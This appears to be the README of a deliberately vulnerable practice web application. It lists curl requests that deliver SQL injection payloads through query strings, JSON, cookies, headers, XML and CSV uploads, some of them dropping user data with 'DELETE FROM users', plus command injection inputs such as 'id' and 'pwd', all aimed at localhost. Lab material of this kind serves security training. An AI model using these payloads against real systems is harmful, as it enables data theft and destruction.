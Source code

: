 # Vulnerable

## Deploy

```bash
rm vulnerable.jar
wget https://github.com/michalszalkowski/vulnerable/raw/master/vulnerable.jar
java -jar vulnerable.jar
```

## SQL Injection

### GET request - payload in query param
```bash
curl --get --data-urlencode "name=michal" http://localhost:8080/vun/sql/example1/1/
curl --get --data-urlencode "name=michal' or 1=1 -- -" http://localhost:8080/vun/sql/example1/1/
curl --get --data-urlencode "name=michal' UNION SELECT * FROM config -- -" http://localhost:8080/vun/sql/example1/1/
curl --get --data-urlencode "name=michal\' or 1=1-- -" http://localhost:8080/vun/sql/example1/1/
curl --get --data-urlencode "name=michal\'/**/or/**/1=1/**/-- -" http://localhost:8080/vun/sql/example1/1/
```

### POST request - payload in json body
```bash
curl -X POST http://localhost:8080/vun/sql/example2/ -H "Content-Type: application/json" -d "{\"filter\": \"michal\"}"  
curl -X POST http://localhost:8080/vun/sql/example2/ -H "Content-Type: application/json" -d "{\"filter\": \"michal' or 1=1 -- -\"}"  
```

### POST request - payload in json body
```bash
curl -X POST http://localhost:8080/vun/sql/example3/ -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker\"}"  
curl -X POST http://localhost:8080/vun/sql/example3/ -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker'); SELECT * FROM users; -- - \"}"  
curl -X POST http://localhost:8080/vun/sql/example3/ -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker'); DELETE FROM users; -- - \"}"  
```

### GET request - payload in cookie
```bash
curl http://localhost:8080/vun/sql/example4/ --cookie "name=michal"
curl http://localhost:8080/vun/sql/example4/ --cookie "name=michal'%20or%201=1%20--%20-"
```

### GET request - payload in header
```bash
curl http://localhost:8080/vun/sql/example5/1/ -H "X-Filter:michal"
curl http://localhost:8080/vun/sql/example5/1/ -H "X-Filter:michal' or 1=1 -- -"
```

### POST request - payload in xml body
```bash
curl -X POST http://localhost:8080/vun/sql/example6/ -H "Content-Type: application/xml" -d "<filters><filter>michal</filter></filters>"  
curl -X POST http://localhost:8080/vun/sql/example6/ -H "Content-Type: application/xml" -d "<filters><filter>michal' or 1=1 -- -</filter></filters>"
```

### POST request - payload in csv file
```bash
echo "\"name\",\"surname\"" > /tmp/file.csv
echo "\"michal\",\"hacker'); DELETE FROM users; -- -\"" >> /tmp/file.csv
curl  -X POST -H "Content-Type: multipart/form-data" http://localhost:8080/vun/sql/example7/1/ --form file="@/tmp/file.csv"
```

## CMD Injection

### GET request - payload in query param
```bash
curl --get --data-urlencode "cmd=id" http://localhost:8080/vun/cmd/example1/1/
```

### POST request - payload in json body
```bash
curl -X POST http://localhost:8080/vun/cmd/example2/ -H "Content-Type: application/json" -d "{\"filter\": \"pwd\"}"  
```

### POST request - payload in xml body
```bash
curl -X POST http://localhost:8080/vun/cmd/example3/ -H "Content-Type: application/xml" -d "<filters><filter>pwd</filter></filters>"  
```

### GET request - payload in cookie
```bash
curl http://localhost:8080/vun/cmd/example4/ --cookie "cmd=pwd"
```

### GET request - payload in header
```bash
curl http://localhost:8080/vun/cmd/example5/ -H "X-Filter:pwd"
```

### POST request - payload in csv file
```bash
echo "\"name\",\"surname\"" > /tmp/file2.csv
echo "\"michal\",\"pwd\"" >> /tmp/file2.csv
curl  -X POST -H "Content-Type: multipart/form-data" http://localhost:8080/vun/cmd/example6/ --form file="@/tmp/file2.csv"
```
